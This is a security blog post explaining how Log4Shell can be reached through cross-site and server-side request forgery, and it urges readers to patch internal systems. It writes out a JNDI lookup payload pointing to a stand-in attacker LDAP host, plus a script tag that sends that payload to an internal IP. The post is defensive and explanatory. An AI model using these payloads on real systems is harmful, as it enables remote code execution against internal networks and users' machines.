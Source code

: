 ```yaml
---
title: "Log4Shell and Request Forgery Attacks"
date: 2022-01-04T15:18:18-08:00
draft: true
tags: [
        "pentest", "red","research"
    ]

twitter:
  card: "summary_large_image"
  site: "@wunderwuzzi23"
  creator: "@wunderwuzzi23"
  title: "Log4Shell and Request Forgery Attacks"
  description:  "Beware of Log4Shell and Request Forgery Attacks"
  image: "https://embracethered.com/blog/images/2022/log4shell.png"
---
```



The last weeks of 2021 got quite interesting for security professionals and software engineers.

Apache's [log4j library](https://logging.apache.org/log4j/2.x/) and its now prominent [Java Naming and Directory Interface support](https://docs.oracle.com/javase/tutorial/jndi/overview/index.html), which enables easy remote code execution, made the news across the industry. 

What makes Log4Shell scary is the widespread adoption of the Log4j library amongst Java applications, and the ease of remote exploitation. 

**A dangerous combination.** 

Patches got released, bypasses were discovered more patches were released and so forth.

A lot has been written and great information is out there around [discovery](https://www.microsoft.com/security/blog/2021/12/11/guidance-for-preventing-detecting-and-hunting-for-cve-2021-44228-log4j-2-exploitation/), [exploitation](https://unit42.paloaltonetworks.com/apache-log4j-vulnerability-cve-2021-44228/#exploit) as well as [mitigations](https://www.cisa.gov/uscert/apache-log4j-vulnerability-guidance). This post is not intended to repeat that information. 

![Log4Shell and Request Forgery Attacks](/blog/images/2022/log4shell.png)

However, an area that has not gotten a lot of attention is the exploitation of Log4Shell in Request Forgery Attacks that target internal infrastructure and web servers by using the browser or a vulnerable service as confused deputy.

## What are Request Forgery Attacks?

Request Forgery Attacks create requests that have unintended consequences for the victim of the attack. 

These can typically be put in two categories, based on where the request is forged (client or server)
 
1. **Cross-Site Request Forgery Attacks** (CSRF) - these attacks make the client/browser connect to resources and trigger unintended actions. This attack typically leverages authentication tokens to invoke privileged operations on the users behalf via a web browser.
2. **Server-Side Request Forgery Attacks** (SSRF) - these attacks create a request on the server side, where an attacker is able to provide a URL to the server and the server will later connect to that URL. This could be via a wide range of destinations and protocols (localhost, internal networks, http, ftp, ldap,...)

Both kinds of request forgery vulnerabilities are quite common in web application and services. Also see the [confused deputy problem](https://en.wikipedia.org/wiki/Confused_deputy_problem) for a generic explanation of this kind of security issue.

## Why is this interesting in regard to Log4j?

**What makes request forgery attacks so powerful in regard to Log4j is that the Log4j vulnerability often can be triggered without any form of authentication**. 

This makes Cross-Site Request Forgery Attacks that target local or internal network resources very plausible. The same goes for the Server-Side attack scenarios. 

Any Server-Side feature which allows a user to specify a URL to control where a service connects to can potentially be leveraged to target internal infrastructure and probe for the log4j vulnerability.

## Simple GET requests trigger Log4Shell

Remember that in many cases all that is needed to reach a vulnerable log4j system is a GET request with a query parameter that contains the attack payload, for example:

`?username=${jndi:ldap://attacker/p}`

This payload can be provided by a malicious web page, e.g. when loading `image` or `script` tags:

`<script src="https://10.0.0.1/?username=${jndi:ldap://attacker/p}">`

This request will attack an internal network (such as the `10.0.0.1` IP address). It can also target applications installed on `localhost` (including phones!) of the victim browsing the Internet. 

![Log4Shell and Request Forgery Attacks - Log4 What?](/blog/images/2022/glasses.png)

An adversary can automate and scale this technique via JavaScript and AJAX requests or by just adding more tags in the HTML document.

Beware of this attack vector (possibly in combination with phishing attacks) patch and protect internally facing applications as well.

## Conclusion

This post discussed how both Cross-Site (client based) and Server-Side Request Forgery Attacks can lead to succesful exploitation of the log4j vulnerability.

**If you were solely focused on patching externally facing applications and services expand your analysis to everything, including internal infrastructure, as well as developer and end user machines.**

[Chrome and Edge](https://chromestatus.com/feature/5436853517811712) seem to add more restrictions for browsers to talk to private networks as well.

Keep scanning and patching!

## References

* [Apache Log4j Overview](https://logging.apache.org/log4j/2.x/) 
* [JNDI Overview](https://docs.oracle.com/javase/tutorial/jndi/overview/index.html)
* [CISA - Apache Log4j Vulnerabilty Guidance](https://www.cisa.gov/uscert/apache-log4j-vulnerability-guidance)
* [Apache Log4j Vulnerability - Exploit](https://unit42.paloaltonetworks.com/apache-log4j-vulnerability-cve-2021-44228/#exploit)
* [Confused Deputy Problem](https://en.wikipedia.org/wiki/Confused_deputy_problem)
* [Guidance for preventing, detecting and hunting for CVE 2021-44228](https://www.microsoft.com/security/blog/2021/12/11/guidance-for-preventing-detecting-and-hunting-for-cve-2021-44228-log4j-2-exploitation/)
* [Feature: Restrict "private network requests" for subresources from public websites to secure contexts](https://chromestatus.com/feature/5436853517811712)
* Image with the glasses taken from Microsoft Image search included in PowerPoint - credit goes to whoever created the image.
